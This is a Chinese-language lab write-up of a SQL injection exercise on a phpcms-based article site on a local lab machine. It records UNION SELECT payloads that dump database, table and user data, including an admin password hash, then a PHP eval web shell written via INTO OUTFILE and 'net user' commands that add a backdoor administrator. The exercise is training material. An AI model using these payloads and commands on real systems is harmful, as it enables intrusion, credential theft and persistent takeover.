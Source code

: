 ```yaml
---
description: 记录学习平台上实验过程和注入的思路
---
```


# Web渗透之基于phpcms的sql注入实验

## 记录实验过程

先启动靶机的服务，然后打开攻击机，使用浏览器访问PHP网站http://192.168.1.26:8083,打开了一个文章管理系统。

![&#x6587;&#x7AE0;&#x7BA1;&#x7406;&#x7CFB;&#x7EDF;&#x4E3B;&#x9875;](../.gitbook/assets/image%20%2853%29.png)

当我们访问一个文章时，会出现这样的链接

![&#x5355;&#x4E2A;&#x65B0;&#x95FB;&#x7684;&#x94FE;&#x63A5;](../.gitbook/assets/image%20%2873%29.png)

  
所以测试一下该网站此处是否存在sql注入漏洞

当我们构造这个http://192.168.1.26:8083/show.php?id=33 and 1=2链接访问时，系统返回了空白的页面

![&#x8FD4;&#x56DE;&#x7A7A;&#x767D;&#x9875;&#x9762;](../.gitbook/assets/image%20%2831%29.png)

  
当我们访问http://192.168.1.26:8083/show.php?id=33 and 1=1时，返回了正常的页面

![&#x8FD4;&#x56DE;&#x6B63;&#x5E38;&#x7684;&#x9875;&#x9762;](../.gitbook/assets/image%20%2868%29.png)

  
当我们尝试去http://192.168.1.26:8083/show.php?id=33‘访问时，出现了报错信息

![&#x7A0B;&#x5E8F;&#x62A5;&#x9519;&#x4FE1;&#x606F;](../.gitbook/assets/image%20%28107%29.png)

通过以上3次测试，我们可以得出基本的两个结论：  
1.存在sql注入漏洞  
2.程序采用的数据库为MYSQL

下面就考虑如何让数据库回显信息，既然有报错信息那么报错注入可以使用，我们还可以测试一下返回的字段数，直接回显信息。这里采用group by num 来测试（翻倍递增可以加快测试速度），最终测试出来长度为15

![&#x957F;&#x5EA6;&#x4E3A;16&#x65F6;&#x62A5;&#x9519;](../.gitbook/assets/image%20%2813%29.png)

![&#x957F;&#x5EA6;&#x4E3A;15&#x65F6;&#x6B63;&#x5E38;&#x663E;&#x793A;](../.gitbook/assets/image%20%28105%29.png)

测试一下显示的是第几个字段，http://192.168.1.26:8083/show.php?id=33 and 1=2 union select 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15。发现第3个和第11个有回显

![&#x6D4B;&#x8BD5;&#x7ED3;&#x679C;](../.gitbook/assets/image%20%2885%29.png)

**实验手册中的几个payload\(基本思路都是利用sql函数和mysql系统数据库information\_schema\)**  
1.查看 mysql 版本 version\(\)  
2.查看当前数据库 database\(\)  
3.查看当前用户 user\(\)  
4.利用 and 1=2 union select 1,2,group\_concat\(convert\(SCHEMA\_NAME using latin1\)\),4,5,6,7,8,9,10,11,12,13,14,15  from  information\_schema.SCHEMATA，查看 mysql中所有数据库的名称。  
5.利用 and 1=2 union select 1,2,group\_concat\(convert\(table\_name using latin1\)\),4,5,6,7,8,9,10,11,12,13,14,15 from information\_schema.tables where table\_schema=database\(\) ，查看 cms 数据库拥有的所有表。可以发现存放用户信息的表cms\_users。  
6.利用 and 1=2 union select 1,2,group_concat\(convert\(column\_name using latin1\)\),4,5,6,7,8,9,10,11,12,13,14,15 from information\_schema.columns where table\_name=0x636D735F7573657273。 table\_name=cms\_users，表名需要编码为 16 进制。得到 3 个列：userid，username 和 password 从ASCII对照表中可知对应：c\(63\) m\(6d\) s\(73\)_ \(5f\) u\(75\) s\(73\) e\(65\) r\(72\) s\(73\)  
7.利用 and 1=2 union select 1,2,concat\_ws\(0x2b,userid,username,password\),4,5,6,7,8,9,10,11,12,13,14,15 from cms.cms\_users。得到管理员账号密码为：admin/e10adc3949ba59abbe56e057f20f883e（解密后123456）  


![&#x83B7;&#x5F97;&#x540E;&#x53F0;&#x7528;&#x6237;&#x540D;&#x5BC6;&#x7801;](../.gitbook/assets/image%20%2843%29.png)

登录后台：

![](../.gitbook/assets/image%20%2839%29.png)

后台页面竟然有报错信息......，暴露了目录，直接写一个木马。http://192.168.1.26:8083/show.php?id=33 union select '&lt;?php eval\($\_POST\[cmd\]\); ?&gt;',1,1,1,1,1,1,1,1,1,1,1,1,1,1 into outfile D:\\WWW\\cms\\ma.php

![](../.gitbook/assets/image%20%28109%29.png)

菜刀链接 

![](../.gitbook/assets/image%20%2878%29.png)

打开虚拟终端尝试添加用户：

net user test test /add  


![&#x6DFB;&#x52A0;&#x7528;&#x6237;](../.gitbook/assets/image%20%2814%29.png)

  
添加用户到管理员组

net localgroup Administrators test /add  


![&#x6DFB;&#x52A0;&#x7528;&#x6237;&#x5230;&#x7BA1;&#x7406;&#x5458;&#x7EC4;](../.gitbook/assets/image%20%2835%29.png)

  
查看管理员组   
net localgroup administrators

![&#x67E5;&#x770B;&#x7BA1;&#x7406;&#x5458;&#x7EC4;](../.gitbook/assets/image%20%2888%29.png)

尝试远程桌面链接

![&#x8FDC;&#x7A0B;&#x684C;&#x9762;](../.gitbook/assets/image%20%2841%29.png)



